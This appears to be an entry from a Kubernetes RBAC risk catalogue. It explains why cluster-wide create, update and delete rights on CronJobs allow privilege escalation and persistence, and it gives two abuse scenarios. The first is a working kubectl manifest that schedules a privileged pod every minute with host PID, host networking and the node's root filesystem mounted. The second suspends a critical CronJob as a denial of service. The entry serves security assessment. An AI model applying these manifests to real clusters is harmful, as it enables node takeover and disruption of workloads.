 ```yaml
---
id: 1039
title: "Manage CronJobs cluster-wide (scheduled privileged execution, persistence)"
description: "Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1039                                                                                                                |
| Name          | Manage CronJobs cluster-wide (scheduled privileged execution, persistence)                                          |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | batch                                                                                                               |
| Resources     | cronjobs                                                                                                            |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting CronJobs across all namespaces. CronJobs schedule recurring batch jobs. This is critical as it allows scheduling the execution of pods (potentially privileged) at regular intervals, leading to privilege escalation, persistent access, and tampering.

## Abuse Scenarios

1. Create a new CronJob that schedules a privileged pod to run periodically.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: privileged-cronjob
spec:
  schedule: "*/1 * * * *" # Every minute
  jobTemplate:
    spec:
      template:
        spec:
          hostNetwork: true
          hostPID: true
          containers:
          - name: attacker
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Pwned!' > /host/pwned.txt"]
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: host-root
          volumes:
          - name: host-root
            hostPath:
              path: /
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Suspend a critical CronJob, preventing scheduled tasks from running (DoS).

```bash {copy=true}
kubectl patch cronjob <cronjob-name> -n <namespace> -p '{"spec" : {"suspend" : true}}'
# Example: kubectl patch cronjob backup-db -n production -p '{"spec" : {"suspend" : true}}'

```
